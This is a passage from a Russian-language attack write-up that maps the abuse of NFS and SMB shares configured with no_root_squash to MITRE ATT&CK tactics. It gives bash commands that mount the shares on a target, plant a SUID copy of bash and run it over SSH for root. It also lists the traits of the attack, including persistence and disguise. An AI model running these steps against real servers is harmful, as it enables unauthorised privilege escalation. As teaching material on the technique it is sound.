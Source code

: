 **Пояснения:**  
- `nmap` сканирует сеть на наличие сервисов NFS (порты 111, 2049) и SMB (139, 445)  
- `showmount` показывает экспортированные NFS-директории  
- `smbclient` перечисляет доступные SMB-шары  

---

#### 2. [TA0004] – Privilege Escalation (Повышение привилегий)
> Монтирование и модификация файлов

```bash
# Монтирование NFS-шары
mkdir /mnt/nfs
sudo mount -t nfs 192.168.1.100:/home /mnt/nfs

# Монтирование SMB-шары
mkdir /mnt/smb
sudo mount -t cifs //192.168.1.100/public /mnt/smb -o username=guest
```

---

#### 3. [TA0002] – Execution (Выполнение кода)
> Создание и запуск вредоносных компонентов

```bash
# Создание SUID-шелла на NFS-шаре
cp /bin/bash /mnt/nfs/malicious_sh
chmod 4777 /mnt/nfs/malicious_sh  # Установка SUID-бита

# Запуск SUID-шелла на сервере через SSH
ssh user@192.168.1.100 /home/malicious_sh -p
```

---

### Ключевые особенности атаки

1. **Обход аутентификации**:  
   - NFS/Samba полагаются на UID/GID клиента  
   - Нет проверки паролей при использовании `no_root_squash`  
2. **Персистентность**:  
   - Внедрённые файлы остаются после отключения  
3. **Сетевая природа**:  
   - Атака возможна без локального доступа к серверу  
4. **Маскировка**:  
   - Легитимные операции с файлами скрывают вредоносные действия  

---

## Примеры атак

### Пример 1: Эксплуатация NFS с `no_root_squash`
